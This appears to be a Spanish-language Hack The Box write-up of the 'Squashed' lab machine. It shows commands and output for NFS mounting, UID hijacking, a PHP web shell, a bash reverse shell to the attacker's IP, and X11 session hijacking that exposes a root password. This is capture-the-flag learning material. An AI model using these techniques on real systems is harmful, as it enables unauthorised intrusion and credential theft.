







pointedsec
if pentester.found == bug { make(pentester,states.happy) }
Hack The Box: Squashed Writeup
Welcome to my detailed writeup of the easy difficulty machine “Squashed” on Hack The Box. This writeup will cover the steps taken to achieve initial foothold and escalation to root.
TCP Enumeration
$ rustscan -a 10.129.228.109 --ulimit 5000 -g
10.129.228.109 -> [22,80,111,2049,44291,49353,50057,53893]
$ nmap -p22,80,111,2049,44291,49353,50057,53893 -sCV 10.129.228.109 -oN allPorts
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-05 15:45 CEST
Nmap scan report for 10.129.228.109
Host is up (0.037s latency).
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
| 256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_ 256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
80/tcp open http Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Built Better
111/tcp open rpcbind 2-4 (RPC #100000)
| rpcinfo:
| program version port/proto service
| 100000 2,3,4 111/tcp rpcbind
| 100000 2,3,4 111/udp rpcbind
| 100000 3,4 111/tcp6 rpcbind
| 100000 3,4 111/udp6 rpcbind
| 100003 3 2049/udp nfs
| 100003 3 2049/udp6 nfs
| 100003 3,4 2049/tcp nfs
| 100003 3,4 2049/tcp6 nfs
| 100005 1,2,3 35859/udp6 mountd
| 100005 1,2,3 52835/tcp6 mountd
| 100005 1,2,3 53893/tcp mountd
| 100005 1,2,3 58461/udp mountd
| 100021 1,3,4 34979/tcp6 nlockmgr
| 100021 1,3,4 44291/tcp nlockmgr
| 100021 1,3,4 54708/udp6 nlockmgr
| 100021 1,3,4 56514/udp nlockmgr
| 100227 3 2049/tcp nfs_acl
| 100227 3 2049/tcp6 nfs_acl
| 100227 3 2049/udp nfs_acl
|_ 100227 3 2049/udp6 nfs_acl
2049/tcp open nfs 3-4 (RPC #100003)
44291/tcp open nlockmgr 1-4 (RPC #100021)
49353/tcp open mountd 1-3 (RPC #100005)
50057/tcp open mountd 1-3 (RPC #100005)
53893/tcp open mountd 1-3 (RPC #100005)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.96 seconds
UDP Enumeration
$ sudo nmap --top-ports 1500 -sU --min-rate 5000 -n -Pn 10.129.228.109 -oN allPorts.UDP
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-05 15:46 CEST
Nmap scan report for 10.129.228.109
Host is up (0.039s latency).
Not shown: 1492 open|filtered udp ports (no-response)
PORT STATE SERVICE
111/udp open rpcbind
464/udp closed kpasswd5
1035/udp closed mxxrlogin
2049/udp open nfs
18994/udp closed unknown
20288/udp closed unknown
23230/udp closed unknown
30473/udp closed unknown
NFS Enumeration
Me llama la atención el servicio NFS expuesto ya que no es común encontrarse con esto.
Vamos a instalar el paquete nfs-common
sudo apt-get install nfs-common -y
Ahora vamos a montar la raíz del sistema de archivos al directorio /mnt/montura
Primero creamos la carpeta.
mkdir /mnt/montura
$ sudo mount -t nfs 10.129.228.109:/ /mnt/montura
$ ls -la /mnt/montura
total 12
drwxr-xr-x 20 root root 4096 oct 21 2022 .
drwxr-xr-x 1 root root 14 ago 5 15:49 ..
drwxr-xr-x 4 root root 4096 oct 21 2022 home
drwxr-xr-x 16 root root 4096 oct 21 2022 var
Y vemos contenido.
$ find . -type f 2>/dev/null
./ross/.xsession-errors.old
./ross/Documents/Passwords.kdbx
./ross/.xsession-errors
./ross/.Xauthority
Vemos un Passwords.kdbx que me llama la atención.
Investigando la bbdd de keepass, no encuentro nada que se pueda hacer ya que keepass2john no soporta la versión de KeePass con la que fue creada la base de datos.
$ keepass2john Passwords.kdbx
! Passwords.kdbx : File version '40000' is currently not supported!
UID Hijacking -> Foothold
Me dió curiosidad lo siguiente
No podía acceder al directorio html que supongo que corresponderá con el sitio web.
$ cd html/
bash: cd: html/: Permission denied
Pero con find . podía ver algunos directorio y ficheros de dentro del directorio html
$ find .
.
./html
find: ‘./html/.htaccess’: Permission denied
./html/.htaccess
find: ‘./html/index.html’: Permission denied
./html/index.html
find: ‘./html/images’: Permission denied
./html/images
find: ‘./html/css’: Permission denied
./html/css
find: ‘./html/js’: Permission denied
./html/js
Y me dí cuenta de que podríamos hacer un UID Hijacking 
Podemos crear un usuario con el UID 2017
$ sudo useradd -u 2017 pointedc
Y ahora en principio podríamos acceder a este directorio. 
Ahora si cambiamos al usuario pointedc podemos acceder al directorio y por ejemplo, crear archivos.

Y se refleja en el sitio web. 
Podemos comprobar si el sitio interpreta PHP, aunque leyendo el .htaccess ya nos da la pista de que sí.
$ echo "<?php phpinfo(); ?>" > test.php

Nos creamos una pequeña web shell.
$ cat shell.php
<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>'; ?>
Y ya nos podemos mandar la rev shell
http://10.129.228.109/shell.php?cmd=bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/10.10.14.18/443%200%3E%261%22
$ sudo rlwrap -cEr nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.18] from (UNKNOWN) [10.129.228.109] 58462
bash: cannot set terminal process group (1050): Inappropriate ioctl for device
bash: no job control in this shell
alex@squashed:/var/www/html$
alex@squashed:/var/www/html$ whoami
whoami
alex
Y ya podemos leer la flag de usuario
alex@squashed:/var/www/html$ cat /home/alex/user.txt
cat /home/alex/user.txt
f469293aeb9ecd01....
Privilege Escalation
Si nos damos cuenta, hemos ganado acceso como el usuario alex y en el NFS, estaba el directorio personal de trabajo de un usuario llamado ross
Dentro de este directorio se encontraba un archivo .Xauthority pero todavía no lo había analizado porque ya tengo un usuario en mi máquina con ese UID.
Me interesa tanto este archivo porque podemos enumerar que el usuario ross tiene una sesión activa en el equipo
alex@squashed:/home/alex$ w
w
10:10:41 up 41 min, 1 user, load average: 0.00, 0.00, 0.00
USER TTY FROM LOGIN@ IDLE JCPU PCPU WHAT
ross tty7 :0 09:29 41:36 3.57s 0.03s /usr/libexec/gnome-session-binary --systemd --session=gnome
Y con este archivo .XAuthority que es de ross podría conseguir ver la pantalla de este usuario y quizás se filtre información confidencial.
Tengo dos opciones, o asignar una Shell a este usuario para poder migrar a este, o cambiar el UID de este usuario y crear otro usuario con el UID 1001.

Voy asignarle una shell temporalmente..
$ sudo usermod --shell /bin/bash '_laurel'
$ sudo su '_laurel'
┌─[_laurel@parrot]─[/mnt/montura/home/ross]
└──╼ $
Ahora ya puedo migrar a este usuario.
Me voy a copiar este archivo.
$cp .Xauthority /tmp/.Xauthority
$ sudo chown pointedsec:pointedsec .Xauthority
Ahora siguiendo este apartado de HackTricks.
Me comparto este archivo a la máquina víctima.
alex@squashed:/home/alex$ wget http://10.10.14.18:8081/.Xauthority
Recapitulemos, este archivo contiene una Cookie de 128 bits que el cliente manda al servidor, esta cookie sirve para la autorización de X11, que en palabras simples y “mal”, sería como una especie de RDP.

Exportamos la cookie.
alex@squashed:/home/alex$ export XAUTHORITY=/home/alex/.Xauthority
export XAUTHORITY=/home/alex/.Xauthority
Nos responde con información de la pantalla, por lo cual esto es bueno.
alex@squashed:/home/alex$ xdpyinfo -display :0 | less
xdpyinfo -display :0 | less
WARNING: terminal is not fully functional
- (press RETURN)
name of display: :0
version number: 11.0
vendor string: The X.Org Foundation
vendor release number: 12013000
X.Org version: 1.20.13
maximum request size: 16777212 bytes
motion buffer size: 256
bitmap unit, bit order, padding: 32, LSBFirst, 32
image byte order: LSBFirst
number of supported pixmap formats: 7
supported pixmap formats:
depth 1, bits_per_pixel 1, scanline_pad 32
depth 4, bits_per_pixel 8, scanline_pad 32
depth 8, bits_per_pixel 8, scanline_pad 32
depth 15, bits_per_pixel 16, scanline_pad 32
depth 16, bits_per_pixel 16, scanline_pad 32
depth 24, bits_per_pixel 32, scanline_pad 32
depth 32, bits_per_pixel 32, scanline_pad 32
keycode range: minimum 8, maximum 255
focus: window 0x1e00006, revert to PointerRoot
number of extensions: 28
BIG-REQUESTS
Composite
.....
Ahora podemos hacer una captura de pantalla de la sesión :0 que habíamos detectado antes con el comando w
alex@squashed:/tmp$ xwd -root -screen -silent -display :0 > screenshot.xwd
xwd -root -screen -silent -display :0 > screenshot.xwd
alex@squashed:/tmp$ ls
ls
screenshot.xwd
Ahora nos pasamos este archivo a nuestra máquina de atacante y la convertimos a PNG
$ convert screenshot.xwd screenshot.png
Y vaya vaya, ¡tenemos credenciales! 
Me pensaba que iban a ser las credenciales para el usuario ross pero inocentemente probando estas credenciales para root…
alex@squashed:/var/www/html$ su ross
su ross
Password: cah$mei7rai9A
su: Authentication failure
alex@squashed:/var/www/html$ su root
su root
Password: cah$mei7rai9A
id
uid=0(root) gid=0(root) groups=0(root)
Y ya podríamos leer la flag.
cat root.txt
795ede7c08b5f41....
¡Y ya estaría!
Happy Hacking! 🚀